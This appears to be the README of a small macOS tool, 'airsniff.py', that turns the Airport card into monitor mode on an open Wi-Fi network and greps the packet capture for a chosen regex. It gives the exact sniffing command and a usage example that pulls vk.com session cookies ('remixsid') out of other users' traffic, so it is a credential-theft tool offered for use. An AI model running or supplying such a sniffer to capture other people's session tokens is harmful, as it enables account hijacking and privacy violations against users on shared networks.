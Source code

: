 This is quite simple script. You can do all this stuff manually without the script.

It uses Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### How it works: 

* Turn Airport card into monitor mode on selected channel.

```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```

Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find out what channel number is used on your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://i.imgur.com/oeZrN1m.png)

* In cycle matches your regexp in .cap file and excluding duplicate strings.

#### Usage:

```sudo ./airsniff.py <channel> <"pattern">```

 **channel** — wifi channel

 **"pattern"** — regexp that will grep /tmp/*.cap file. Quotes  required!

Example for vk.com:

```sudo ./airsniff.py 10 "remixsid=[a-z0-9]{53}"```
